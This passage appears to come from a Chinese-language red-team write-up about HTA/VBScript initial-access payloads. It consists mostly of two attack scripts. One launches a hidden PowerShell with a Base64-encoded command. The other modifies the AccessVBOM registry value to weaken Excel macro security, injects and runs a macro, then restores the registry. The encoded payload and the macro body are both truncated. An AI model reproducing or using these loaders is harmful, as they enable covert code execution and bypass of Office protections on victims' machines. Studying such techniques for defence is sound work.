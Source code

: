 PowerShell 也是 VBScript 脚本不过 Wscript.Shell 运行的是 PowerShell 程序，其执行的内容经过 Base64 编码。

```bash
<script language="VBScript">
    Function var_func()
        Dim var_shell
        Set var_shell = CreateObject("Wscript.Shell")
        var_shell.run "powershell -nop -w hidden -encodedcommand JABzAD0ATgBlAHcALQBPAGIAagBlAG......MAdAAgAEkAoACkAOwA=", 0, true
    End Function
    var_func
    self.close
</script>
```

VBS 将执行 Excel 宏上线。过程是修改注册表信任 Excel 宏，并执行宏，最后恢复注册表。

```bash
<html><head><script language="vbscript">
Dim objExcel, WshShell, RegPath, action, objWorkbook, xlmodule

Set objExcel = CreateObject("Excel.Application")
objExcel.Visible = False

Set WshShell = CreateObject("Wscript.Shell")

function RegExists(regKey)
    on error resume next
    WshShell.RegRead regKey
    RegExists = (Err.number = 0)
end function

' Get the old AccessVBOM value
RegPath = "HKEY_CURRENT_USER\Software\Microsoft\Office\" & objExcel.Version & "\Excel\Security\AccessVBOM"

if RegExists(RegPath) then
    action = WshShell.RegRead(RegPath)
else
    action = ""
end if

' Weaken the target
WshShell.RegWrite RegPath, 1, "REG_DWORD"

' Run the macro
Set objWorkbook = objExcel.Workbooks.Add()
Set xlmodule = objWorkbook.VBProject.VBComponents.Add(1)
xlmodule.CodeModule.AddFromString "Private "......"
objExcel.DisplayAlerts = False
on error resume next
objExcel.Run "Auto_Open"
objWorkbook.Close False
objExcel.Quit

' Restore the registry to its old state
if action = "" then
    WshShell.RegDelete RegPath
else
    WshShell.RegWrite RegPath, action, "REG_DWORD"
end if
self.close
</script></head></html>
```
